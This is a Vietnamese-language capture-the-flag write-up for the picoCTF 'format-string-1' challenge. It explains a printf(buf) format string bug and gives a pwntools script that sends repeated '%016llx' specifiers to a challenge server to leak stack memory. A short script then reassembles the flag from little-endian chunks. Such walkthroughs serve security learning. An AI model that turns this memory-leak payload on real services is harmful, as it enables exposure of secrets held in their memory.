 # format-string-1
Đề bài cung cấp file binary và source code luôn. <br>
Kiểm tra một số thông tin cơ bản về binary. <br>
![alt text](image-1.png)
<br>
![alt text](image-2.png)
<br>

Ta kiểm tra source code thì thấy lỗi `format string` khi chương trình in ra `buf`: <br>
![alt text](image-3.png)
<br>
Tóm tắt về cách chương trình này hoạt động. Đầu tiên nó mở file `secret-item-1.txt`, đọc 64 byte trong đó và lưu vào `secret1`. Sau đó nó đọc 64 byte trong `flag.txt` và lưu vào `flag`. Cuối cùng, đọc 64 byte trong `secret-item-2.txt` và lưu vào `secret2`. Lỗi format string xảy ra khi chương trình cố in ra buf bằng `printf(buf)` mà không có tham số format. Tận dụng lỗi này, ta sẽ in ra `flag`.
<br>

_payload.py_
```python
from pwn import *

host = 'mimas.picoctf.net'
port = 62687
p = remote(host, port)
# p = process("./format-string-1")

payload = b"%016llx," * 50

p.sendline(payload)
p.interactive()

```
![alt text](image-4.png)
<br>

Ta đã biết rằng flag bị kẹp giữa secret1 và secret2. Ta giải mã các giá trị hex này xem sao. Sử dụng `CyberChef`. <br>
Phát hiện một dãy giá trị có vẻ là flag.
![alt text](image-5.png)
Do ta đang thao tác trên file 64bit, little endian (xem thông tin file phía trên). Nên cứ mỗi 8 ký tự, ta đảo ngược lại. Do lười nên tôi viết nhanh một script python làm điều này.
```python
flag_rev = '{FTCocip5_14m1n44x4_31y746_g41f_}611772'
flag = ''

for i in range(0, len(flag_rev), 8):
    chunk = flag_rev[i:i+8]
    rev_chunk = chunk[::-1]
    flag += rev_chunk

print(flag)
```
May mắn ta đã lấy được flag:
![alt text](image-6.png)